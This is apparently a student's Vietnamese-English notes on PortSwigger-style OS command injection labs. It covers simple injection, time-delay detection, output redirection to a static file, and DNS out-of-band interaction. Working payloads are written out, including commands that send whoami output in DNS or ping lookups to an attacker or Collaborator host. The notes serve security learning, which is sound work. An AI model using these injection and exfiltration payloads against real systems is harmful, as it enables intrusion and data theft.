










# Kiến thức cần biết:

## Useful command



## Nhận biết time-delay



## Mô hình phục vụ file tĩnh của webserver

- Hầu hết web server đều có 1 thư mục chứa static files, và mapping ```URL ↔ filesystem```. Nếu bạn xác định đúng thư mục này và ghi được file vào đó ⇒ có thể phục vụ như một kênh ```out-of-band``` để thu thập dữ liệu.


# Lab OS Command Injection:

## Lab: OS command injection, simple case

**END goals**: execute the whoami command to determine the name of the current user





- Append ';' after ```storeId``` to execute ```whoami``` command


## Lab: Blind OS command injection with time delays

**END goals**: exploit the blind OS command injection vulnerability to cause a 10 second delay.

-Vulnerable: feedback function



- We see the message we retrieve just ```Thank u for …``` ==>Out of band.



- We have 5 parameter

==>Try append ```; sleep 10 #``` after each parameter.



==>See that after email parameter, we have 10s to send this packet.

==>email được chèn trực tiếp vào shell.


## Lab: Blind OS command injection with output redirection

**END goals**: execute the whoami command and retrieve the output.

- Phân tích: Giống lab trước nhưng giờ ta cần chạy lệnh whoami và đọc được nó.

- Khi mở 1 ảnh bất kì ở home:


-Thấy đường dẫn là 1 static resources từ filesystem: ```/var/www/image/...```

==>Giờ như lab trước, append ```;whoami > file.txt #``` để lấy nội dung của lệnh ```whoami``` gán vào ```file.txt```



- Giờ vào vào link đổi ```filename=file.txt``` để đọc whoami:




## Lab: Blind OS command injection with out-of-band interaction

**END goals**: exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator

- Lab này minh họa ```Blind OS Command Injection với Out-of-Band (OOB) Interaction```, cụ thể là qua ```DNS lookup``` đến Burp Collaborator – một kỹ thuật khai thác thường dùng khi:      
    • Không nhận được đầu ra trực tiếp từ lệnh hệ điều hành (HĐH)

    • Không thể chuyển hướng đầu ra đến file có thể truy cập

    • Và khi lệnh được thực thi một cách bất đồng bộ (asynchronously)

🧰 Mô tả tình huống trong lab

    • Chức năng feedback đang truyền input người dùng vào lệnh shell.

    • Lệnh chạy asynchronously ⇒ không làm chậm response và không hiển thị gì cả.

    • Không thể sử dụng redirect file như bài trước.

    • Phải dùng kỹ thuật OOB (out-of-band) như DNS hoặc HTTP request đến domain bên ngoài.


📌 Quan trọng

    • Mục tiêu ở đây không phải là xem kết quả của lệnh, mà là xác định lệnh có được thực thi hay không.

    • Việc nslookup tạo DNS request ra ngoài là đủ để chứng minh rằng payload đã được thực thi thành công.

-Dùng lệnh:```|| nslookup server_collaborator ||``` gán vào sau email:




## Lab: Blind OS command injection with out-of-band data exfiltration

**END goals**: execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator.

The out-of-band channel provides an easy way to exfiltrate the output from injected commands:

```& nslookup `whoami`.kgji2ohoyw.web-attacker.com &```

This causes a DNS lookup to the attacker's domain containing the result of the whoami command:

```wwwuser.kgji2ohoyw.web-attacker.com```


==>```||ping `whoami`.7dltaij24l4p3pave6g7jfotbkhb53ts.oastify.com||```

Giống bài ```Lab: Blind SSRF with Shellshock exploitation``` bên SSRF.